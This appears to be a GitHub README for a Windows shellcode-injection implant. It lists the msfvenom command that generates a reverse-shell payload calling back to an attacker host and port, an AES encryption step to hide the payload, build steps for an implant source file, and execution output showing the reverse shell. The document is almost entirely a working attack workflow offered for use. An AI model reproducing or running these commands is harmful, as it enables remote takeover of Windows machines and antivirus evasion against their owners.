 # Shellcode injection 
(reverse shell)

## Generate payload:
(attacker machine)
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.134 LPORT=8989 > reverse.bin

## encrypt reverse.bin:
python2 aes_encrypt.py reverse.bin

## compile.bat:
compile.bat
implant.cpp

## execute binary:
>implant.exe
calc_payload addr    : 0x000000812DAFF650
exec_mem addr        : 0x0000018A43D50000

Hit me 1st!


Hit me 2nd!

Reverse shell:
![reverse_shell](reverse_shell.png)


